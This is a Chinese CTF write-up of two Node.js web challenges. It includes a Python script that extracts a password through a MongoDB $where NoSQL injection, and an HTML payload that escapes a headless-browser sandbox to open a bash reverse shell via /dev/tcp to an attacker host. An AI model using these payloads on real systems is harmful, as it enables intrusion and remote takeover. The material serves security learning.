





# 祥云杯 2021

## Package Manage

> *2021/09/06*

### 题目

进去首先是个页面，展示了很多前端框架



给了源代码，后台主要是用ts写的，主要的逻辑在`index.ts`里

```typescript
import *  as express from "express";
import { User } from "../schema";
import { checkmd5Regex } from "../utils";

const router = express.Router();

router.get('/', (_, res) => res.render('index'))

router.get('/login', (_, res) => res.render('login'))

router.post('/login', async (req, res) => {
	let { username, password } = req.body;
	if (username && password) {
		if (username == '' || typeof (username) !== "string" || password == '' || typeof (password) !== "string") {
			return res.render('login', { error: 'Parameters error' });
		}
		const user = await User.findOne({ "username": username })
		if (!user || !(user.password === password)) {
			return res.render('login', { error: 'Invalid username or password' });
		}
		req.session.userId = user.id
		res.redirect('/packages/list')
	} else {
		return res.render('login', { error: 'Parameters cannot be blank' });
	}
})

router.get('/register', (_, res) => res.render('register'))

router.post('/register', async (req, res) => {
	let { username, password, password2 } = req.body;
	if (username && password && password2) {
		if (username == '' || typeof (username) !== "string" || password == '' || typeof (password) !== "string" || password2 == '' || typeof (password2) !== "string") {
			return res.render('register', { error: 'Parameters error' });
		}
		if (password != password2) {
			return res.render('register', { error: 'Password do noy match' });
		}
		if (await User.findOne({ username: username })) {
			return res.render('register', { error: 'Username already taken' });
		}
		try {
			const user = new User({ "username": username, "password": password, "isAdmin": false })
			await user.save()
		} catch (err) {
			return res.render('register', { error: err });
		}
		res.redirect('/login');
	} else {
		return res.render('register', { error: 'Parameters cannot be blank' });
	}
})

router.get('/logout', (req, res) => {
	req.session.destroy(() => res.redirect('/'))
})


router.get('/auth', (_, res) => res.render('auth'))

router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});


export default router;
```

其实在`/auth`逻辑中，有一句``let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()``，这句代码是包含noSQL注入的，而在后台`schema.ts`里可以看到数据库是`mongodb`，脚本跑一下就行了，拿到密码直接登录就可以

### payload

```python
import requests
import string

url = "http://e4b7e7b4-7393-42ab-bd37-6e4a0cb6b064.node4.buuoj.cn:81/auth"
headers = {
    "Cookie":
    "UM_distinctid=17b4f2f7a461345-02cbe73321b5b-4343363-384000-17b4f2f7a47726; session=s%3APkDewey4yEgT6r7zDdglqWKICJthgKdP.CT9Gfpv7tOrEfTpU8MM91vjoOdnhZOKV4HZ9G%2BYIChc",
    "User-Agent":
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36",
    "Referer":
    "http://e4b7e7b4-7393-42ab-bd37-6e4a0cb6b064.node4.buuoj.cn:81/auth",
    "Origin": "http://e4b7e7b4-7393-42ab-bd37-6e4a0cb6b064.node4.buuoj.cn:81",
    "Accept":
    "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Upgrade-Insecure-Requests": "1",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(
            i, j)
        #print(payload)
        data = {
            "_csrf": "MNC6g3k7-2IREOUshu9MxXXB_ZSJmRKFdLhE",
            "token": payload
        }

        r = requests.post(url=url,
                          data=data,
                          headers=headers,
                          allow_redirects=False)
        print(r.status_code)
        #print(payload)
        print(flag)
        if "Found. Redirecting to" in r.text:
            flag += j
            #print(flag)
            break
```

## Cralwer_Z

> *2022/02/14*

### 题目

`Nodejs`的代码审计题，进入系统后，有个登录页面，登录之后，有一个可以输入链接的表单



逻辑并不难，下面是关键代码部分

```javascript
router.post('/profile', async (req, res, next) => {
    let { affiliation, age, bucket } = req.body;
    const user = await User.findByPk(req.session.userId);
    if (!affiliation || !age || !bucket || typeof (age) !== "string" || typeof (bucket) !== "string" || typeof (affiliation) != "string") {
        return res.render('user', { user, error: "Parameters error or blank." });
    }
    if (!utils.checkBucket(bucket)) {
        return res.render('user', { user, error: "Invalid bucket url." });
    }
    let authToken;
    try {
        await User.update({
            affiliation,
            age,
            personalBucket: bucket
        }, {
            where: { userId: req.session.userId }
        });
        const token = crypto.randomBytes(32).toString('hex');
        authToken = token;
        await Token.create({ userId: req.session.userId, token, valid: true });
        await Token.update({
            valid: false,
        }, {
            where: {
                userId: req.session.userId,
                token: { [Op.not]: authToken }
            }
        });
    } catch (err) {
        next(createError(500));
    }
    if (/^https:\/\/[a-f0-9]{32}\.oss-cn-beijing\.ichunqiu\.com\/$/.exec(bucket)) {
        res.redirect(`/user/verify?token=${authToken}`)
    } else {
        // Well, admin won't do that actually XD. 
        return res.render('user', { user: user, message: "Admin will check if your bucket is qualified later." });
    }
});


router.get('/verify', async (req, res, next) => {
    let { token } = req.query;
    if (!token || typeof (token) !== "string") {
        return res.send("Parameters error");
    }
    let user = await User.findByPk(req.session.userId);
    const result = await Token.findOne({
        token,
        userId: req.session.userId,
        valid: true
    });
    if (result) {
        try {
            await Token.update({
                valid: false
            }, {
                where: { userId: req.session.userId }
            });
            await User.update({
                bucket: user.personalBucket
            }, {
                where: { userId: req.session.userId }
            });
            user = await User.findByPk(req.session.userId);
            return res.render('user', { user, message: "Successfully update your bucket from personal bucket!" });
        } catch (err) {
            next(createError(500));
        }
    } else {
        user = await User.findByPk(req.session.userId);
        return res.render('user', { user, message: "Failed to update, check your token carefully" })
    }
})


// Not implemented yet
router.get('/bucket', async (req, res) => {
    const user = await User.findByPk(req.session.userId);
    if (/^https:\/\/[a-f0-9]{32}\.oss-cn-beijing\.ichunqiu\.com\/$/.exec(user.bucket)) {
        return res.json({ message: "Sorry but our remote oss server is under maintenance" });
    } else {
        // Should be a private site for Admin
        try {
            const page = new Crawler({
                userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
                referrer: 'https://www.ichunqiu.com/',
                waitDuration: '3s'
            });
            await page.goto(user.bucket);
            const html = page.htmlContent;
            const headers = page.headers;
            const cookies = page.cookies;
            await page.close();

            return res.json({ html, headers, cookies});
        } catch (err) {
            return res.json({ err: 'Error visiting your bucket. ' })
        }
    }
});
```

`/profile`会接受符合正则表达式的`bucket`值，然后修改它，不过会先将`bucket`缓存到`personalBucket`中，通过一个`302`跳转到`/verify`页面进行验证，不过需要携带一个有效的`token`值。每次在提交`bucket`时，系统都会将其他非本次生成`token`值的`valid`改为`false`，即禁止使用。

这段代码主要包含两个问题：

- `/verify`中，`findOne`函数的错误使用

`/verify`中，校验逻辑使用`findOne`来查找列表中符合要求的数据，但是这个写法是错误的，如下所示



这段语句代表从数据库查询出`token`，`userId`，`valid`等属性，由于使用`where`条件，导致`SQL`语句永远为真，校验失败

- `bucket`不是立即更新

结合这两个问题，可以通过截断`302`跳转的方式，让一个能经过检验的`bucket`，先获取`token`（非必要），然后再发送一次请求，使恶意`bucket`更新到`personalBucket`中，再利用之前的`token`，访问`verify`界面，将`bucket`更新为恶意地址。



而代码中还应用了`zoobie`库，存在[ RCE ](https://ha.cker.in/index.php/Article/13563)，将`bucket`的网址替换为恶意地址，即可反弹`shell`



### payload

```javascript
// 前面的只需要需要VPS，就不写了
// exp.html
<script>
const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/*/4444 0>&1"');
</script>
```

